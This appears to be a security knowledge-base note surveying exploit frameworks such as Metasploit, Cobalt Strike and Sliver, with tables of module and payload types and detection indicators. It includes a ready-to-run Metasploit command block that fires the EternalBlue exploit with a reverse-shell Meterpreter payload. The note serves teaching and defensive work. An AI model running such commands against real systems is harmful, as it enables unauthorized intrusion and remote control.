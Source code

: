 **Exploit frameworks** are toolkits that streamline the process of discovering, developing, and deploying exploits against vulnerable targets. These frameworks support **penetration testing**, **red teaming**, **malware simulation**, and **defensive testing** by providing reusable exploit modules, payload delivery systems, and post-exploitation utilities.

---

## 🎯 Purpose of Exploit Frameworks

- Simulate real-world cyberattacks for testing defenses
- Validate vulnerabilities (e.g., CVEs) through PoC execution
- Deliver and manage **payloads**, **C2 channels**, and **lateral movement**
- Automate offensive techniques for **red teams** and **adversary emulation**
- Assist blue teams in understanding, detecting, and defending against live threats

---

## 🧰 Popular Exploit Frameworks

### 1. 🧨 Metasploit Framework (Open Source)
- **Language**: Ruby
- **Core Use**: Exploits, payloads, auxiliary scanners, post-exploitation
- **Key Tools**: `msfconsole`, `msfvenom`, Armitage (GUI), `metasploit-payloads`
- **Ideal For**: Beginners and pros in red teaming, vulnerability validation

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

### 2. 🛰️ Cobalt Strike (Commercial)

- **Use**: Adversary emulation and red team infrastructure
- **Key Features**: Beacons, Malleable C2 profiles, OPSEC controls
- **Common In**: Ransomware operations (often abused by threat actors)
- **TeamServer**: Centralized control point for operations

---

### 3. 🦊 Sliver (Open Source by Bishop Fox)

- **Language**: Golang
- **Key Features**: Cross-platform implants, encrypted comms, reflective loading
- **Positioning**: A modern alternative to Cobalt Strike
- **Extras**: C2 over HTTPS, DNS, and WireGuard

---

### 4. 🧠 Core Impact / Canvas / Exploit Pack (Commercial)

- **Use Case**: Enterprise-grade penetration testing tools
- **Features**: Automated exploitation, advanced evasion, graphical workflows
- **Audience**: Security consultants, corporate red teams, compliance auditors

---

### 5. 🔧 CrackMapExec / Impacket

- **Toolkits**: Not standalone frameworks but essential in Windows/AD exploitation
- **Best For**: Credential spraying, SMB relay, Kerberos abuse, lateral movement

---

## 🧩 Module Types in Exploit Frameworks

|Module Type|Description|
|---|---|
|**Exploit**|Leverages a specific vulnerability (e.g., CVE)|
|**Payload**|Delivers shell, Meterpreter, custom script, etc.|
|**Auxiliary**|Scanners, fuzzers, enumeration tools|
|**Post**|Actions after exploitation (e.g., dump hashes, pivot network)|
|**Encoders**|Obfuscate payloads to bypass antivirus|

---

## 🔥 Common Payloads

|Payload Type|Purpose|
|---|---|
|**Reverse Shell**|Target connects back to attacker|
|**Bind Shell**|Opens port on victim for attacker to connect|
|**Meterpreter**|Full-featured post-exploitation agent (Metasploit)|
|**Staged/Stageless**|Divide payload for stealth or deliver in one shot|

---

## 🛡️ Defensive Considerations

|Indicator|Detection Opportunity|
|---|---|
|`msfvenom` payloads|AV/EDR/YARA rule detection|
|Reverse shell connections|Firewall + EDR alerting|
|Beacons (C2 callbacks)|Beaconing detection via RITA, Zeek, or SIEM|
|Suspicious parent-child chains|`explorer.exe → powershell.exe` or LOLBin abuse|
|Abused ports (e.g., 443, 53)|Threat hunting and anomaly detection|

---

## 🧠 Real-World Use Cases

|Framework|Scenario|
|---|---|
|**Metasploit**|Exploit CVE-2017-0144 (EternalBlue)|
|**Sliver**|Establish encrypted C2 on red team engagement|
|**Cobalt Strike**|Simulate APT C2 with Malleable Profile|
|**CrackMapExec**|Spray credentials across Active Directory|

---

## 🧰 Tools That Complement Exploit Frameworks

- **YARA / Sigma**: Detect payloads and behavior
- **Ghidra / IDA**: Reverse engineer binaries pre- or post-exploit
- **Procmon / Sysmon**: Monitor system behavior during post-exploitation
- **Splunk / ELK**: Correlate exploit activity across the environment

---

## 🔗 Related Topics

- [[Exploit Development Overview]]
- [[Command and Control (C2)]]
- [[Payload Types]]
- [[Defense Evasion Techniques]]
- [[Post-Exploitation Techniques]]
- [[SIEM Tools]]

---

## 🏷 Tags

#exploit_frameworks #metasploit #cobalt_strike #sliver #post_exploitation #red_team #penetration_testing #payloads #offensive_security